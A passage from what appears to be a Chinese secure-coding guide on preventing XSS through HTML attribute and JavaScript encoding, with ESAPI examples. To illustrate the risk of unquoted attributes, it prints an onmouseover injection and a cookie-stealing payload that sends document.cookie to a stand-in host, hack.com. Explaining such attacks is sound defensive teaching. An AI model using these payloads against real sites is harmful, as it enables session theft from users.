 同样需要" 来闭合所以 HTMLEncode

[编码规则]

除了阿拉伯数字和字母，对其他所有的字符进行编码，只要该字符的ASCII码小于256。编码后输出的格式为 &#xHH; （以&#x开头，HH则是指该字符对应的十六进制数字，分号作为结束符）

之所以编码规则如此严格，是因为开发者有时会忘记给属性的值部分加上引号。如果属性值部分没有使用引号的话，攻击者很容易就能闭合掉当前属性，随后即可插入攻击脚本。例如，如果属性没有使用引号，又没有对数据进行严格编码，那么一个空格符就可以闭合掉当前属性。请看下面这个攻击：

假设HTML代码是这样的：

```
< div width=$INPUT> …content… </ div >
攻击者可以构造这样的输入：


x onmouseover=”javascript:alert(/xss/)”
最后，在用户的浏览器里的最终HTML代码会变成这个样子：


<div width=x onmouseover=”javascript:alert(/xss/)”> …content… </div>

```
只要用户的鼠标移动到这个DIV上，就会触发攻击者写好的攻击脚本。在这个例子里，脚本仅仅弹出一个警告框，除了恶作剧一下也没有太多的危害，但是在真实的攻击中，攻击者会使用更加具有破坏力的脚本，例如下面这个窃取用户cookie的XSS攻击：

```
x /> <script>var img = document.createElement(“img”);img.src = ”http://hack.com/xss.js?” + escape(document.cookie);document.body.appendChild(img);</script> <div
除了空格符可以闭合当前属性外，这些符号也可以：


%     *     +     ,     –     /     ;     <     =     >     ^     |     `(反单引号，IE会认为它是单引号)
可以使用ESAPI提供的函数进行HTML属性编码：


String encodedContent = ESAPI.encoder().encodeForHTMLAttribute(request.getParameter(“input”));
```

### 在将不可信数据插入到SCRIPT里时，对这些数据进行SCRIPT编码

保障变量在引号内

    <script>
    var x = "$var"
    </script>



使用javascriptencode编码

这条原则主要针对动态生成的JavaScript代码，这包括脚本部分以及HTML标签的事件处理属性（Event Handler，如onmouseover, onload等）。在往JavaScript代码里插入数据的时候，只有一种情况是安全的，那就是对不可信数据进行JavaScript编码，并且只把这些数据放到使用引号包围起来的值部分（data value）之中，例如：

```
<script>
     var message = “<%= encodeJavaScript(@INPUT) %>”;
</script>

```
除此之外，往JavaScript代码里其他任何地方插入不可信数据都是相当危险的，攻击者可以很容易地插入攻击代码。
